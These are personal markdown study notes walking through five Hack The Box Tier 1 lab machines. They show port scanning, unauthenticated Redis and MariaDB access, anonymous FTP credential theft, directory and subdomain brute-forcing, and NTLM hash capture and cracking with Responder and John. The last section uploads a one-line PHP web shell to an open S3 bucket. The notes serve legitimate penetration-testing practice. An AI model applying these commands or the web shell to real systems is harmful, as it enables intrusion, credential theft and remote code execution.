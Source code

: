 
# Hack The Box - Tier 1 Notes

---

## Redeemer

### Reconnaissance

- Used `nmap -sV <ip>` and didn’t get any results.
- Had to use:

```bash
nmap -p- -sV <ip>
```

- `-p-` scans **all** 65,535 ports instead of just the top 1000 — perfect for catching services that are "hiding."
- Found port `6379` running **Redis**:
  - Redis is an open-source in-memory data store used as a DB, cache, or message broker.
  - Connect using:

```bash
redis-cli -h <host> -p <port>
```

### Traversing the Database

- `select <index>` – switches to a specific database index
- `scan <index>` – lists keys in that index
- `get <filename>` – retrieves contents of a key (like a file)

---

## Sequel

### Reconnaissance

- Used `nmap -p- -sV <ip>` and found port `3306` running MySQL.
- Learned about `-sC` (script scan) — better at detecting versions.
- Discovered target is using **MariaDB**.

### Exploitation

- Used:

```bash
mariadb -u root -p
```

- But that connects locally only — needed:

```bash
mariadb -u root -p -h <host> --skip-ssl
```

- Once in:
  - `SHOW DATABASES;` — listed DBs
  - Found `htb`
  - `USE htb;`
  - `SHOW TABLES;` → Found `config`
  - `SELECT * FROM config;` → Dumped creds/config info

**Helpful resource:**  
https://www.dataquest.io/blog/sql-commands/

---

## Crocodile

### Reconnaissance

- Ran:

```bash
nmap -p- -sC -sV <ip>
```

- Found:
  - `21/tcp` (FTP — red flag)
  - `80/tcp` (HTTP)

### FTP Access

- Logged into FTP using anonymous login:

```bash
ftp <ip>
```

- Used `ls` to list files and `get` to download them
- Found `usernames.txt` and `passwords.txt`

### Web Enumeration

- Ran GoBuster in directory mode:

```bash
gobuster dir -u http://<ip> -w <wordlist>
```

- Discovered folders: `assets`, `css`, `dashboard`, `fonts`, `js`
- Navigated to `/dashboard/`
- Used FTP creds to log in via the web app

**Useful link:**  
https://3os.org/penetration-testing/cheatsheets/gobuster-cheatsheet/#dns-mode-options

---

## Responder

### Reconnaissance

- Nmap with `-p- -sC -sV` → found port `80` running PHP web app

### Vulnerability Insight

- PHP apps often vulnerable to **LFI/RFI** if they don’t validate `?page=` inputs
- If the app checks missing files over SMB, **NTLM authentication** can be triggered

### Exploiting via Responder

- Started Responder to impersonate SMB server:

```bash
responder -I tun0
```

- App sends NTLM hash to us thinking we’re the SMB server
- Captured hash → cracked with John the Ripper:

```bash
john -w /usr/share/wordlists/rockyou.txt hashfile
```

- Got:
  - Username: `administrator`
  - Password: `badminton`

### Access

- Used evil-winrm to get access:

```bash
evil-winrm -i <ip> -u administrator -p badminton
```

- Found and retrieved the flag

---

## Three

### Reconnaissance

- Scanned ports `22` and `80`
- Visited `http://<ip>` — saw a webpage mentioning domain `thetoppers.htb`
- Edited `/etc/hosts`:

```bash
sudo nano /etc/hosts
```

- Added:

```
<ip> thetoppers.htb
```

---

### Web Enumeration w/ ffuf

Tool: `ffuf` — for bruteforcing directories and subdomains

```bash
ffuf -c -u http://thetoppers.htb -w <wordlist> -H "Host: FUZZ.thetoppers.htb" -mc 200,301,302
```

- Found subdomain: `s3.thetoppers.htb`
- Added that to `/etc/hosts` as well

---

### S3 Bucket Enumeration & Exploitation

- Learned about Amazon S3 and that it may allow anonymous access
- Used:

```bash
aws s3 ls --endpoint-url http://s3.thetoppers.htb
```

- Created a PHP web shell:

```php
<?php system($_GET['cmd']); ?>
```

- Uploaded shell:

```bash
aws s3 cp shell.php s3://thetoppers.htb --endpoint-url http://s3.thetoppers.htb
```

- Verified shell:

```
http://thetoppers.htb/shell.php?cmd=ls
```

- Read the flag:

```
http://thetoppers.htb/shell.php?cmd=cat+../flag.txt
```

---
